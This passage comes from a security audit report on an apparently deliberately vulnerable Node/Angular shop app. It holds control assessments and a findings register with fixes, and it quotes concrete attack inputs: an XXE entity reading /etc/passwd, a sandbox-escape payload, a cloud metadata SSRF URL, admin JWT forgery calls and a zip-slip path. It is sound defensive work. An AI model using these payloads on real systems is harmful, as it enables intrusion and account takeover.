**Assessment:** All three controls are structurally present - the upload, XML parsing, and archive extraction paths exist and function. Each is configured unsafely: `libxmljs2` is called with `noent: true` enabling external entity expansion, the zip extraction loop does not correctly bound entry paths, and the profile-image-URL fetch has no network-scope restriction. The B2B order eval sink (`routes/b2bOrder.ts:23`) and the user-profile eval sink (`routes/userProfile.ts:62`) additionally provide server-side code execution via two independent paths.

<a id="xml-parser-security"></a>
#### 7.10.1 XML parser security

**Status:** 🔴 Missing - `libxmljs2` is called with `noent: true`, enabling external entity expansion (XXE) on uploaded XML files.

`routes/fileUpload.ts:83` parses uploaded XML with `libxml.parseXml(data, { noblanks: true, noent: true, nocdata: true })`. The `noent: true` option instructs `libxmljs2` to replace external entity references with their resolved content, including file URIs and network URIs.

**Security assessment**

An attacker uploads an XML file containing an external entity declaration such as `<!ENTITY xxe SYSTEM "file:///etc/passwd">` and a reference `&xxe;` in an element value. With `noent: true`, `libxmljs2` resolves the entity during parsing and returns the file contents embedded in the parsed document. The parse-error handler at `routes/fileUpload.ts:87` propagates `libxmljs2`'s error object - including up to 400 characters of the parsed content - directly into the HTTP error response, providing an out-of-band exfiltration channel even when the parsed result is not returned normally.

The unsafe parser invocation that enables XXE:

```ts
libxml.parseXml(data, { noblanks: true, noent: true, nocdata: true })
```

**Relevant findings**

- 🔴 [F-018](#f-018) — XXE via `noent: true` in the XML upload parser at `routes/fileUpload.ts:83`.
- 🔴 [F-019](#f-019) — Unfiltered SSRF — `routes/profileImageUrlUpload.ts:24` on the profile-image URL upload path.
- 🔴 [F-020](#f-020) — JavaScript sandbox escape via `vm.runInContext()` at `routes/b2bOrder.ts:23` provides a second route to arbitrary network access.

<a id="archive-extraction-safety"></a>
#### 7.10.2 Archive extraction safety

**Status:** 🔴 Missing - the zip extraction loop resolves entry paths with `path.resolve()` and checks containment with `String.includes()`, which does not correctly prevent path traversal.

The complaint file upload handler at `routes/fileUpload.ts:40-49` extracts zip archive entries using `unzipper`. For each entry, the handler calls `path.resolve('uploads/complaints/' + fileName)` and then checks that the resolved absolute path includes `path.resolve('.')`.

**Security assessment**

The `String.includes()` check is insufficient for path containment. A zip entry named `../../../tmp/evil.sh` resolves to a path that does NOT include the base directory string, but a path such as `uploads/complaints/../../../tmp/evil.sh` resolves to `/tmp/evil.sh` and the check may pass depending on the current working directory. The correct check is `resolvedPath.startsWith(basePath + path.sep)` with `basePath` being the fully-resolved uploads directory. The current implementation allows a crafted zip file to write arbitrary content to filesystem locations accessible to the Node process.

**Relevant findings**

- 🔴 [F-018](#f-018) — XXE and zip-slip both operate through the file upload endpoint at `routes/fileUpload.ts`, sharing the same unauthenticated upload surface.
- 🔴 [F-019](#f-019) — SSRF on the profile-image URL upload is a parallel outbound-request weakness on a different upload surface.
- 🔴 [F-020](#f-020) — Sandbox escape via the B2B eval sink provides a third arbitrary-execution path alongside the zip-slip write primitive.

<a id="ssrf-defense"></a>
#### 7.10.3 SSRF defense

**Status:** 🔴 Missing - two independent server-side code-execution sinks and one direct `fetch()` sink are present with no network-scope allowlist.

`routes/profileImageUrlUpload.ts:24` makes a server-side HTTP request with `fetch(req.body.imageUrl)`. `routes/b2bOrder.ts:23` evaluates `orderLinesData` in a JavaScript sandbox via `vm.runInContext(safeEval())`. `routes/userProfile.ts:62` calls `eval(code)` when the username matches a `#{...}` pattern.

**Security assessment**

Three independent paths lead to arbitrary outbound requests or code execution:

- `routes/profileImageUrlUpload.ts:24`: `fetch(url)` with only a challenge-flag regex check. An attacker supplies an internal address such as `http://169.254.169.254/latest/meta-data/` or a `file://` URI.
- `routes/b2bOrder.ts:23`: `vm.runInContext(safeEval(orderLinesData))` - the `notevil` sandbox is escapable via `safeEval.constructor.constructor('return process.mainModule')()`, granting full Node\.js module access and unrestricted network calls.
- `routes/userProfile.ts:62`: `eval(code)` where `code` is the `username` field matching `#{...}`. This is a direct `eval()` call with no sandbox at all, providing equivalent access to the B2B escape path.

**Relevant findings**

- 🔴 [F-018](#f-018) — XXE parser with `noent: true` can also resolve external network entities, creating a parser-level SSRF.
- 🔴 [F-019](#f-019) — Direct `fetch(imageUrl)` call with no allowlist at `routes/profileImageUrlUpload.ts:24`.
- 🔴 [F-020](#f-020) — JavaScript sandbox escape via `routes/b2bOrder.ts:23` (Critical, [CWE-94](https://cwe.mitre.org/data/definitions/94.html)).

### 7.11 Operations Runtime and Supply Chain Controls

**Verdict:** 🔴 Missing

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.11.1 Container hardening](#7111-container-hardening)
- [7.11.2 Dependency management](#7112-dependency-management)
- [7.11.3 CI/CD security](#7113-cicd-security)
- [7.11.4 Rate limiting](#7114-rate-limiting)
- [7.11.5 Automated SCA scanning](#7115-automated-sca-scanning)
- [7.11.6 Automated dependency updates](#7116-automated-dependency-updates)
- [7.11.7 Lockfile hygiene](#7117-lockfile-hygiene)

**Implemented controls:** A multi-stage Dockerfile produces a `node:24`-based image; the `Dockerfile` uses a non-root user for the runtime stage; CodeQL scanning is configured in `codeql-analysis.yml`; rate limiting middleware is applied to the password-reset route.

**Assessment:** The Dockerfile structure and CodeQL integration provide a baseline of supply-chain hygiene, but several controls are absent or misconfigured: the base image is tag-pinned (not digest-pinned), `npm install` uses `--unsafe-perm`, GitHub Actions workflows have no `permissions` block, `package-lock.json` is not committed, and no automated dependency-update bot (Dependabot/Renovate) is configured. Rate limiting is present on the reset route but is bypassable via header spoofing.

<a id="container-hardening"></a>
#### 7.11.1 Container hardening

**Status:** 🟢 Adequate - the Dockerfile uses a multi-stage build, drops to a non-root user for the runtime stage, and does not install unnecessary tooling in the final image.

The `Dockerfile` uses `FROM node:24 AS build` for compilation and a separate minimal stage for runtime. The runtime stage drops to a non-root user before the `CMD` instruction, limiting the blast radius of application-level vulnerabilities to the non-privileged user context.

**Security assessment**

The hardening posture is stronger than most comparable Node\.js applications: multi-stage build, non-root runtime, and no build tooling (e.g. compilers, package managers) carried into the final image. The remaining gap is the base image reference: `FROM node:24` is a mutable tag. A silent retag by the upstream publisher would cause the next build to pull a different image without any indication in the `Dockerfile` diff. Digest-pinning (`FROM node:24@sha256:<hash>`) makes the base image immutable and auditable.

**Relevant findings**

- 🟠 [F-028](#f-028) — Security audit logging for authentication and mutation events is absent regardless of runtime hardening.
- 🟠 [F-030](#f-030) — `--unsafe-perm` in `npm install` runs lifecycle scripts as root during the build stage, negating some of the runtime non-root benefit.
- 🟠 [F-031](#f-031) — Third-party GitHub Actions are not pinned to commit SHAs, so the build pipeline itself can be compromised independently of the container.

<a id="dependency-management"></a>
#### 7.11.2 Dependency management

**Status:** 🟠 Weak - `package.json` is present and lists dependencies, but `package-lock.json` is absent, and `npm install` is run with `--unsafe-perm` in the Dockerfile.

`package.json` defines runtime and dev dependencies. The build stage in `Dockerfile:5` runs `npm install --unsafe-perm` to install them.

**Security assessment**

Two weaknesses combine to create a weak dependency-management posture:

- `--unsafe-perm` at `Dockerfile:5` allows postinstall lifecycle scripts to run as root during the build. A compromised transitive dependency executing a `postinstall` hook could read environment variables, write to privileged filesystem locations, or exfiltrate build secrets.
- No `package-lock.json` is committed (see [§7.11.7 Lockfile hygiene](#lockfile-hygiene)), so each `npm install` resolves dependency versions independently. An attacker who performs a dependency-confusion or version-drift attack would have the results executed with `--unsafe-perm` root privileges.

**Relevant findings**

- 🟠 [F-028](#f-028) — Audit logging gaps mean compromised build-time dependency execution would not be recorded.
- 🟠 [F-030](#f-030) — `--unsafe-perm` flag in the Dockerfile is the direct supply-chain exposure.
- 🟠 [F-031](#f-031) — Unpinned GitHub Actions compound the build-pipeline attack surface.

<a id="cicd-security"></a>
#### 7.11.3 CI/CD security

**Status:** 🟠 Weak - CodeQL scanning is configured, but the top-level `ci.yml` workflow lacks a `permissions` block and three CodeQL action references are pinned to mutable tags rather than commit SHAs.

`codeql-analysis.yml` runs CodeQL static analysis on push. `ci.yml` runs the test suite and build on pull requests.

**Security assessment**

Two independent weaknesses affect the CI pipeline:

- `ci.yml:1` has no `permissions:` block. Without explicit permissions, the workflow inherits the repository default GitHub token scope, which is typically `write-all` on public repositories. A compromised step or pull-request-triggered action could use the token to push to branches, create releases, or read secrets.
- `codeql-analysis.yml:23` references `github/codeql-action/init@v3`, `github/codeql-action/autobuild@v3`, and `github/codeql-action/analyze@v3`. The `@v3` tags are mutable; a tag update by a compromised action maintainer would execute in the security-scanning job.

**Relevant findings**

- 🟠 [F-028](#f-028) — Absent audit logging means CI-time supply-chain compromise events would not appear in application logs.
- 🟠 [F-030](#f-030) — `--unsafe-perm` combines with the missing `permissions` block to amplify the blast radius of a compromised workflow step.
- 🟠 [F-031](#f-031) — Unpinned action tags are the direct CI/CD supply-chain weakness.

<a id="rate-limiting"></a>
#### 7.11.4 Rate limiting

**Status:** 🟡 Partial - rate limiting is applied to the password-reset route, but the key generator trusts `X-Forwarded-For`, making it bypassable by header spoofing.

`server.ts:346` applies an `express-rate-limit` instance to `POST /rest/user/reset-password` with a custom `keyGenerator` that reads `req.headers['X-Forwarded-For'] ?? req.ip`. `app.enable('trust proxy')` is set at line 344.

**Security assessment**

The rate-limit key is the value of the `X-Forwarded-For` header, which the client controls. With `trust proxy` enabled, Express accepts and uses the client-supplied header without validating whether the request actually came through a trusted proxy. An attacker can rotate the `X-Forwarded-For` value on each request to bypass the per-IP counter, effectively disabling the rate limit on the reset endpoint. The login endpoint has no rate limiting at all.

**Relevant findings**

- 🟠 [F-028](#f-028) — Absent audit logging means rate-limit bypass attempts are not recorded or alertable.
- 🟠 [F-030](#f-030) — Build-stage supply-chain weaknesses are separate from runtime rate-limiting gaps.
- 🟠 [F-031](#f-031) — CI supply-chain issues are in scope here given the shared `7.11` domain; the rate-limiting bypass is the primary operational gap.

<a id="automated-sca-scanning"></a>
#### 7.11.5 Automated SCA scanning

**Status:** 🟢 Adequate - CodeQL is configured and runs on every push; the workflow covers JavaScript/TypeScript and produces results that would flag known-vulnerable dependencies.

`codeql-analysis.yml` runs the `security-extended` query suite on the `javascript` language pack. The workflow is triggered on `push` and `pull_request` to the default branch. CodeQL's dependency-resolution analysis identifies known-bad packages referenced in `package.json`.

**Security assessment**

CodeQL provides meaningful automated coverage: it catches injection vulnerabilities (SQL, eval sinks), some hardcoded-credential patterns, and known-bad library references. The gap is that the action references are pinned to mutable `@v3` tags rather than commit SHAs (see [§7.11.3 CI/CD security](#cicd-security)), meaning the scanner itself could be tampered with. The absence of `package-lock.json` also means CodeQL's dependency graph may not be fully reproducible between runs.

**Relevant findings**

- 🟠 [F-028](#f-028) — Runtime audit logging is separate from SCA scanning; CodeQL scans do not compensate for absent operational logging.
- 🟠 [F-030](#f-030) — Even with CodeQL active, `--unsafe-perm` creates a build-time execution surface that static analysis does not fully cover.
- 🟠 [F-031](#f-031) — The unpinned CodeQL action references are the main gap in the SCA scanning control itself.

<a id="automated-dependency-updates"></a>
#### 7.11.6 Automated dependency updates

**Status:** 🔴 Missing - no Dependabot or Renovate configuration is present in the repository.

`package.json` lists dependencies but no `.github/dependabot.yml` or `renovate.json` file is committed. Dependency updates are manual.

**Security assessment**

Without automated update tooling, newly published CVEs against transitive dependencies are not surfaced as pull requests. The absence of `package-lock.json` (see [§7.11.7](#7117-lockfile-hygiene)) compounds this: even if a developer runs `npm audit`, the results are not deterministic across environments. Several dependencies in `package.json` carry known-bad version ranges (identified in the SCA scan); without automated PRs, they remain until a developer manually checks.

**Relevant findings**

- 🟠 [F-028](#f-028) — Absent runtime audit logging means exploitation of a known-bad dependency would not appear in application logs.
- 🟠 [F-030](#f-030) — `--unsafe-perm` means a compromised dependency update (when it eventually happens) runs with elevated build privileges.
- 🟠 [F-031](#f-031) — Unpinned CI actions represent the same class of uncontrolled update risk as unpinned dependencies.

<a id="lockfile-hygiene"></a>
#### 7.11.7 Lockfile hygiene

**Status:** 🔴 Missing - `package-lock.json` is absent from the repository; each `npm install` resolves dependency versions independently.

`package.json` is committed and specifies version ranges (e.g. `^4.17.1`) for dependencies. No `package-lock.json` or `npm-shrinkwrap.json` is present in the repository root.

**Security assessment**

Without a lockfile, two separate installs of the same `package.json` can resolve to different transitive dependency versions. A dependency-confusion or version-drift attack - publishing a higher-version package to npm under a package name that matches an internal dependency - would be silently adopted on the next `npm install`. Combined with `--unsafe-perm` in the Dockerfile, the adopted package's postinstall script would run as root. Committing `package-lock.json` and running `npm ci` in the Dockerfile would pin transitive dependencies to verified versions.

**Relevant findings**

- 🟠 [F-028](#f-028) — Audit logging gaps mean silent dependency substitution during builds would produce no application-layer alert.
- 🟠 [F-030](#f-030) — `--unsafe-perm` is the direct amplifier of a successful lockfile-absence attack.
- 🟠 [F-031](#f-031) — Unpinned GitHub Actions represent the CI-layer analogue of the same absent-pinning problem.

### 7.12 Real-time and Not Applicable Controls

<a id="websocket-security"></a>
#### 7.12.1 WebSocket / `Socket.IO` Security

**Status:** 🔴 Missing - the `Socket.IO` connection is established from the Angular frontend with no authentication token, allowing unauthenticated clients to receive server-pushed events.

`socket-io.service.ts:21` calls `io(window.location.origin, { path: ... })` with no `auth` option. The `Socket.IO` server is registered in `server.ts` and used to push order and challenge-completion notifications to connected clients.

**Security assessment**

Any unauthenticated browser or scripted client can connect to the `Socket.IO` endpoint and receive server-pushed events without presenting a session token. The correct fix is to pass `auth: { token: localStorage.getItem('token') }` in the `io()` call and validate the token in the `connection` handler on the server side. Given the current `localStorage` token storage, this fix is dependent on also addressing the SPA-without-BFF architectural gap ([§7.3.4 Secure token storage](#secure-token-storage)).

**Relevant findings**

- 🟡 [F-047](#f-047) — Unauthenticated `Socket.IO` connection at `socket-io.service.ts:21` allows event receipt without a valid session.

**Controls covered:**

- [7.12.1 WebSocket / `Socket.IO` Security](#7121-websocket-socketio-security)

### 7.13 Defense-in-Depth Summary

The application's strongest positive controls are its multi-stage Docker build with a non-root runtime user, CodeQL static analysis on every push, `RS256` as the algorithm choice for JWT signing (a stronger primitive than `HS256` when the key is protected), and Angular's default template sanitizer covering the majority of DOM bindings. These controls are genuine layers that reduce attack surface when the underlying defects are remediated.

Restoring layered defense requires closing four cross-cutting gaps. First, the RSA private key must be moved out of source and injected at runtime via an environment variable or secret manager - without this, the JWT signing boundary and every downstream control that depends on a valid session is moot. Second, parameterized queries must replace raw `models.sequelize.query()` on the login and search routes, and the `noent: true` XML parser option must be removed, to eliminate the two Critical injection paths that bypass all other controls. Third, an `HttpOnly Secure SameSite=Strict` cookie managed by a Backend-for-Frontend proxy should replace `localStorage` for token storage, removing the shared root cause behind every XSS-to-session-theft chain. Fourth, a `Content-Security-Policy` header should be added to limit the browser-side impact of any remaining XSS bypass until the five `bypassSecurityTrustHtml()` call sites are corrected.

<!-- enriched:standard -->

---

## 8. Findings Register

Findings are grouped by severity (Critical → High → Medium → Low); within a tier they are ordered by attack vektor (Repo-Read → Internet-Anon → Internet-User → Victim-Required). Each finding is a card with the same fixed fields, in order: **Severity · Component · Location** → **Issue** → **Root cause** → **Evidence** → **Fix** → **Classification** (with external CWE / OWASP links).

**Risk Distribution:** 🔴 Critical: 18 · 🟠 High: 29 · 🟡 Medium: 11 · 🟢 Low: 2 · **Total findings: 60**
**STRIDE Coverage:** Spoofing: 12 · Tampering: 10 · Repudiation: 4 · Information Disclosure: 21 · Denial of Service: 4 · Elevation of Privilege: 9

**Findings index:**<br/>🔴 [F-001](#f-001) — Hardcoded RSA Private Key Enables JWT Forgery (`lib/insecurity.ts:54`)<br/>🔴 [F-002](#f-002) — Systemic Broken Authorization Attacker-Controlled Owner ID Across…<br/>🟠 [F-003](#f-003) — JWT Session Token Stored in localStorage (`request.interceptor.ts:13`)<br/>🟠 [F-004](#f-004) — Systemic Missing permissions Block Across GitHub Actions Workflows…<br/>🟠 [F-005](#f-005) — Unauthenticated Sensitive REST Routes (`server.ts:310`)<br/>🔴 [F-006](#f-006) — OAuth Implicit Flow with Derived Password (`oauth.component.ts:30`)<br/>🔴 [F-007](#f-007) — JWT verify call missing algorithms allowlist (`lib/insecurity.ts:191`)<br/>🔴 [F-008](#f-008) — JWT verify call missing algorithms allowlist (`routes/chatbot.ts:248`)<br/>🔴 [F-009](#f-009) — JWT verify call missing algorithms allowlist (`routes/verify.ts:117`)<br/>🔴 [F-010](#f-010) — SQL Injection Authentication Bypass (`routes/login.ts:34`)<br/>🔴 [F-011](#f-011) — Hardcoded RSA Private Key (`lib/insecurity.ts:23`)<br/>🔴 [F-012](#f-012) — JWT Algorithm Restriction Absent in express-jwt Configuration…<br/>🔴 [F-013](#f-013) — Hardcoded RSA Private Key Enables Offline JWT Forgery…<br/>🔴 [F-014](#f-014) — Stored Cross-Site Scripting (`administration.component.ts:78`)<br/>🔴 [F-015](#f-015) — Stored Cross-Site Scripting (`search-result.component.ts:132`)<br/>🔴 [F-016](#f-016) — Reflected Cross-Site Scripting (`search-result.component.ts:170`)<br/>🔴 [F-017](#f-017) — SQL Injection UNION Data Extraction (`routes/search.ts:23`)<br/>🔴 [F-018](#f-018) — XML External Entity Expansion (`routes/fileUpload.ts:83`)<br/>🔴 [F-019](#f-019) — Unfiltered SSRF (`routes/profileImageUrlUpload.ts:24`)<br/>🔴 [F-020](#f-020) — JavaScript Sandbox Escape (`routes/b2bOrder.ts:23`)<br/>🔴 [F-021](#f-021) — Server-Side Template Injection (`routes/userProfile.ts:62`)<br/>🟠 [F-022](#f-022) — Missing OAuth State Parameter Enables CSRF on Authorization Callback…<br/>🟠 [F-023](#f-023) — Stored Cross-Site Scripting (`last-login-ip.component.ts:39`)<br/>🟠 [F-024](#f-024) — Stored Cross-Site Scripting (`track-result.component.ts:48`)<br/>🟠 [F-025](#f-025) — Missing Input Validation on orderLinesData Before Eval…<br/>🟠 [F-026](#f-026) — NoSQL / ORM Injection (`routes/recycles.ts:14`)<br/>🟠 [F-027](#f-027) — Extension-Only File Type Check Permits MIME Confusion Upload…<br/>🟠 [F-028](#f-028) — Missing Security Audit Log for Authentication and Data Mutation Events…<br/>🟠 [F-029](#f-029) — Rate-Limit Bypass (`server.ts:346`)<br/>🟠 [F-030](#f-030) — Uses --unsafe-perm npm install flag — Dockerfile:5<br/>🟠 [F-031](#f-031) — Third-party GitHub Action not pinned to commit SHA…<br/>🟠 [F-032](#f-032) — Docker base image not digest-pinned — Dockerfile:1<br/>🟠 [F-033](#f-033) — On absent from repository (`package-lock.json:1`)<br/>🟠 [F-034](#f-034) — Unencrypted SQLite Database at Rest (`models/index.ts:38`)<br/>🟠 [F-035](#f-035) — Sensitive Files Publicly Served (`ftp/acquisitions.md:1`)<br/>🟠 [F-036](#f-036) — Weak Password Hashing MD5 Without Salt (`lib/insecurity.ts:43`)<br/>🟠 [F-037](#f-037) — XML Parse Error Leaks Up to 400 Chars of Parsed Document in HTTP…<br/>🟠 [F-038](#f-038) — Unauthenticated Directory Listing of `/support/logs` and `/encryptionkeys`…<br/>🟠 [F-039](#f-039) — Event-Loop Exhaustion (`routes/b2bOrder.ts:23`)<br/>🟠 [F-040](#f-040) — XML Parsing DoS (`routes/fileUpload.ts:83`)<br/>🟠 [F-041](#f-041) — Client-Side-Only Role Check in Angular Route Guards (`app.guard.ts:53`)<br/>🟠 [F-042](#f-042) — IDOR Missing Ownership Check on Recycles Endpoint…<br/>🟠 [F-043](#f-043) — Zip Slip Path Traversal in Complaint File Upload Handler…<br/>🟠 [F-044](#f-044) — Unauthenticated Product Update (`server.ts:369`)<br/>🟠 [F-045](#f-045) — Missing Authentication on File Upload Endpoint (`routes/fileUpload.ts:19`)<br/>🟠 [F-046](#f-046) — Attacker-Controlled UserId in Memory Upload (`routes/memory.ts:24`)<br/>🟡 [F-047](#f-047) — Unauthenticated Socket\.IO Connection (`socket-io.service.ts:21`)<br/>🟡 [F-048](#f-048) — Open Redirect (`lib/insecurity.ts:138`)<br/>🟡 [F-049](#f-049) — Absent Audit Logging for B2B Order Submissions (`routes/b2bOrder.ts:17`)<br/>🟡 [F-050](#f-050) — No Audit Logging of File Upload Events (`routes/fileUpload.ts:75`)<br/>🟡 [F-051](#f-051) — Raw Error Propagation Leaks Stack Trace on Eval Failure…<br/>🟡 [F-052](#f-052) — Container images not signed no cosign or build-provenance attestation…<br/>🟡 [F-053](#f-053) — Npm install does not use --ignore-scripts — Dockerfile:5<br/>🟡 [F-054](#f-054) — On postinstall hook present and not audited (package\.json:88)<br/>🟡 [F-055](#f-055) — Dependabot npm ecosystem not configured (.github/dependabot.yml:1)<br/>🟡 [F-056](#f-056) — Missing Client-Side Rate Limiting on OAuth and Login Flows…<br/>🟡 [F-057](#f-057) — Unbounded Search Query Causing Full-Table Scan (`routes/search.ts:23`)<br/>🟢 [F-058](#f-058) — Missing HEALTHCHECK instruction — Dockerfile:1<br/>🟢 [F-059](#f-059) — Renovate config absent automated dependency updates not…<br/>🟠 [F-060](#f-060) — Data disclosure (`challenges.yml:1381`)

<a id="th-01"></a><a id="th-02"></a><a id="th-03"></a><a id="th-05"></a><a id="th-06"></a><a id="th-10"></a><a id="th-11"></a><a id="th-17"></a><a id="th-04"></a><a id="th-07"></a><a id="th-08"></a><a id="th-09"></a><a id="th-14"></a><a id="th-16"></a><a id="th-12"></a><a id="th-13"></a>

### 🔴 Critical (18)

<a id="t-011"></a><a id="f-011"></a>
#### F-011 · Hardcoded Cryptographic Key

**Severity:** 🔴 Critical - secret committed to the public source repo - extractable on clone, no prior access needed  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `lib/insecurity.ts:23`

**Issue:** `lib/insecurity.ts:23` embeds the full RSA-2048 private key as a string literal in source code. `authorize()` at line 56 signs JWT tokens with this key using `algorithm: 'RS256'`.

Any attacker who obtains the source (public repository) can call `jwt.sign({ data: { id: 1, role: 'admin' } }, privateKey, { algorithm: 'RS256', expiresIn: '6h' })` offline and produce a token the server accepts as the admin user. Attacker forges a valid JWT for any user ID and role, achieving full identity spoofing without authentication.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - The RSA-2048 PEM private key is assigned as a string literal at `lib/insecurity.ts:23`, making it available to anyone with repository access.

**Fix:** Move the cryptographic key out of source control into a managed secret store and rotate it → ❶ [M-055](#m-055) — Move cryptographic keys to a managed secret store

**Classification:** Cryptographic Failures · [CWE-321](https://cwe.mitre.org/data/definitions/321.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-013"></a><a id="f-013"></a>
#### F-013 · Hardcoded Credentials

**Severity:** 🔴 Critical - secret committed to the public source repo - extractable on clone, no prior access needed  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `lib/insecurity.ts:23`

**Issue:** The RSA-2048 private key used to sign all JWTs is embedded as a string literal at `lib/insecurity.ts:23`. Any developer, contractor, or attacker with read access to the source repository can extract the key and sign arbitrary JWT payloads offline - including payloads claiming `role: 'admin'` or any other user identity.

Because `security.authorize()` at line 56 signs with this literal `privateKey`, the attacker-forged token is indistinguishable from a legitimately issued one. No key rotation mechanism exists; the key cannot be revoked without a code change and redeploy.

Complete authentication bypass: an attacker with repo access generates admin-level JWTs valid for 6 hours per issuance without knowing any user password.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - Private key assigned as string literal `const privateKey = '[PEM PRIVATE KEY — REDACTED]\r\nMIICXA...'` at line 23; `jwt.sign(user, privateKey, ...)` at line 56 uses it for all token issuance.

```typescript
// lib/insecurity.ts:23
import * as z85 from 'z85'

export const publicKey = fs ? fs.readFileSync('encryptionkeys/jwt.pub', 'utf8') : 'placeholder-public-key'
const privateKey = '[PEM PRIVATE KEY — REDACTED]

interface ResponseWithUser {
  status?: string
```

**Fix:** Move the credential out of source control into a secret store and rotate it → ❶ [M-057](#m-057) — Move secrets to a managed secret store

**Classification:** Broken Authentication · [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-001"></a><a id="f-001"></a>
#### F-001 · Insufficient Verification of Data Authenticity

**Severity:** 🔴 Critical  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `lib/insecurity.ts:54`

**Issue:** The RSA private key at `lib/insecurity.ts:23` is committed verbatim in the public GitHub repository. `isAuthorized()` at line 54 is implemented as `expressJwt({ secret: publicKey })` with no `algorithms` parameter - express-jwt 0.1.3 does not enforce an algorithm allowlist, accepting `RS256` and potentially `alg:none`.

An attacker extracts the private key from the source code and uses `jwt.sign({ email: 'admin@juice-sh.op', role: 'admin' }, privateKey, { algorithm: 'RS256' })` to mint a valid bearer token offline. This token passes the `isAuthorized()` guard on `/b2b/v2` without any server-side secret rotation or key infrastructure, granting access to the B2B order endpoint as any user identity.

Authentication to the B2B API can be forged offline by any attacker with repository read access, completely bypassing the JWT guard and enabling unauthenticated use of the RCE-capable order endpoint.

**Evidence:** ✓ verified - `isAuthorized()` at `lib/insecurity.ts:54` calls `expressJwt({ secret: publicKey })` with no `algorithms` restriction; the corresponding private key is hardcoded at line 23 of the same file.

```typescript
// lib/insecurity.ts:54
  return str
}

export const isAuthorized = () => expressJwt(({ secret: publicKey }) as any)
export const denyAll = () => expressJwt({ secret: '' + Math.random() } as any)
export const authorize = (user = {}) => jwt.sign(user, privateKey, { expiresIn: '6h', algorithm: 'RS256' })
export const verify = (token: string) => token ? (jws.verify as ((token: string, secret: string) => boolean))(token, publicKey) : false
```

**Fix:** ❶ [M-047](#m-047) — Verify token signatures before trusting claims

**Classification:** Broken Authentication · [CWE-345](https://cwe.mitre.org/data/definitions/345.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-002"></a><a id="f-002"></a>
#### F-002 · Insecure Direct Object Reference (IDOR)

**Severity:** 🔴 Critical  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `routes/address.ts:11`

**Issue:** Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - An object-identity parameter is trusted from the request without server-side ownership check.

```typescript
// routes/address.ts:11

export function getAddress () {
  return async (req: Request, res: Response) => {
    const addresses = await AddressModel.findAll({ where: { UserId: req.body.UserId } })
    res.status(200).json({ status: 'success', data: addresses })
  }
}
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ❶ [M-048](#m-048) — Enforce object-level (ownership) authorization

**Classification:** Broken Access Control · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-006"></a><a id="f-006"></a>
#### F-006 · Improper Authentication

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Angular SPA  ·  **Location:** `frontend/src/app/oauth/oauth.component.ts:30`

**Issue:** The SPA initiates OAuth via `response_type=token` (`login.component.ts:134`), which delivers the access_token in the URL fragment. `oauth.component.ts:28` extracts `access_token` from `this.route.snapshot.data.params` (the fragment) using `parseRedirectUrlParams()`, then calls `profile.email` to derive a local account password as `btoa(profile.email.split('').reverse().join(''))` at line 30.

Any attacker who knows a victim's email address can compute this deterministic password offline and authenticate as that user on the Juice Shop local auth endpoint - bypassing the OAuth identity provider entirely. There is no PKCE (`code_challenge` absent from the authorization URL), no `state` parameter (open to CSRF on the OAuth callback), and no `nonce` on the id_token.

An attacker knowing any user's email can log in as that user without interacting with the OAuth IdP, gaining full account access including order history, saved payment methods, and the ability to escalate to admin via other vulnerabilities.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - `login.component.ts:134` uses `response_type=token` (implicit flow); `oauth.component.ts:30` computes `password = btoa(profile.email.split('').reverse().join(''))` from the received profile.

```typescript
// frontend/src/app/oauth/oauth.component.ts:30
  ngOnInit (): void {
    this.userService.oauthLogin(this.parseRedirectUrlParams().access_token).subscribe({
      next: (profile: any) => {
        const password = btoa(profile.email.split('').reverse().join(''))
        this.userService.save({ email: profile.email, password, passwordRepeat: password }).subscribe({
          next: () => {
            this.login(profile)
```

**Fix:** Strengthen authentication: enforce a vetted JWT verifier with explicit algorithm, MFA where appropriate → ❶ [M-052](#m-052) — Harden the authentication flow

**Classification:** OAuth / OIDC Misconfiguration · [CWE-287](https://cwe.mitre.org/data/definitions/287.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-007"></a><a id="f-007"></a>
#### F-007 · Improper Verification of Cryptographic Signature

**Severity:** 🔴 Critical - elevated as an attack-chain keystone (individual baseline: High)  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `lib/insecurity.ts:191`

**Issue:** Without an explicit algorithm allowlist, attackers can forge tokens with `alg:none` (older lib versions) or use the public key as an HMAC secret to mint valid signatures.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified

```typescript
// lib/insecurity.ts:191
export const updateAuthenticatedUsers = () => (req: Request, res: Response, next: NextFunction) => {
  const token = req.cookies.token || utils.jwtFrom(req)
  if (token) {
    jwt.verify(token, publicKey, (err: Error | null, decoded: any) => {
      if (err === null) {
        if (authenticatedUsers.get(token) === undefined) {
          authenticatedUsers.put(token, decoded)
```

**Fix:** Pin the signature algorithm explicitly and reject `alg:none` and unknown algorithms → ❶ [M-053](#m-053) — Enforce JWT signature and algorithm verification

**Classification:** Broken Authentication · [CWE-347](https://cwe.mitre.org/data/definitions/347.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

